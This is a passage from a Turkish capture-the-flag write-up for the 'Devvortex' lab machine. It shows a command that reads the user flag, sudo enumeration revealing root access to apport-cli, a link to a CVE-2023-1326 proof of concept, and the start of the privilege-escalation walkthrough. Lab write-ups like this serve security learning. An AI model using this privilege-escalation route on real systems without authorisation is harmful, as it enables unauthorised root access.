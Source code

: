 ```bash
find / -name *user.txt -type f -exec cat {} \; 2> /dev/null
```

## Root Flag

Mevcut yetkilerimi daha da yükseltebilmek için bazı araştırmalar gerçekleştirdim. İlk olarak aşağıdaki kontrolü sağladım:

```bash
sudo -l
```

```text title="Output" hl_lines="5"
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Mevcut kullanıcı ile `apport-cli` ikili dosyasını çalıştırabildiğimi fark ettim. Kısa bir Google aramasından sonra bu aracın çökme raporları oluşturmada kullanılabildiğini ve bu aracın ilgili sürümünde bir [zafiyet](https://diegojoelcondoriquispe.medium.com/cve-2023-1326-poc-c8f2a59d0e00) bulunduğunu keşfettim.

```bash
sudo /usr/bin/apport-cli -f
```

```text title="Output" hl_lines="16 37 43 59"
*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?


Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
```